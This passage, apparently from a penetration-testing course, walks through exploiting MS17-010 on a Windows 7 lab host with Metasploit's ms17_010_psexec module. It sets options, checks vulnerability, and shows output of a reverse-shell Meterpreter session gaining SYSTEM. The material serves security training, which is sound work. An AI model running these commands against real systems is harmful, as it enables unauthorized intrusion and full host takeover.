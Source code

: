 ```
...SNIP...

```

Any option with `Required` set to `yes` needs to be set for the exploit to work. In this case, we only have two options to set: `RHOSTS`, which means the IP of our target (this can be one IP, multiple IPs, or a file containing a list of IPs). The second option, `LHOST`, represents the IP of our attack host (this can be a single IP, or the name of a network interface. In the example below, `LHOST` is being set to the IP associated with our `tun0` interface.) We can set them with the `set` command:

```
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
LHOST => tun0

```

Once we have both options set, we can start the exploitation. However, before we run the script, we can run a check to ensure the server is vulnerable:

```
msf6 exploit(windows/smb/ms17_010_psexec) > check

[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.

```

As we can see, the server is indeed vulnerable. Note that not every exploit in the `Metasploit Framework` supports the `check` function. Finally, we can use the `run` or `exploit` command to run the exploit:

```
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.2:4444
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49159) at 2020-12-27 01:13:28 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 39640 created.
Channel 0 created.
Windows 7 Professional 7601 Service Pack 1
(C) Copyright 1985-2009 Microsoft Corp.

C:\WINDOWS\system32>whoami
NT AUTHORITY\SYSTEM

```
